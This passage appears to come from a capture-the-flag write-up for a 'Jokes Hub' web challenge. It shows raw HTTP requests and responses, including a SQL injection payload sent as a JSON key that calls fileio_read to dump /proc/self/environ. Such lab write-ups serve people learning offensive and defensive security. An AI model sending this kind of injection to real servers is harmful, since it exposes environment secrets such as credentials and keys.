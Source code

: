 ```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:26:27 GMT
content-type: application/json
content-length: 39
connection: close

{"result":"Couldn't retrieve results"}
```

Here are some test to get ENV vars :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 77
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"CAST(fileio_read('/proc/self/environ') AS TEXT ENCODING 'utf-8');--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:29:20 GMT
content-type: application/json
content-length: 14
connection: close

{"result":""}
```

Also

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 75
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
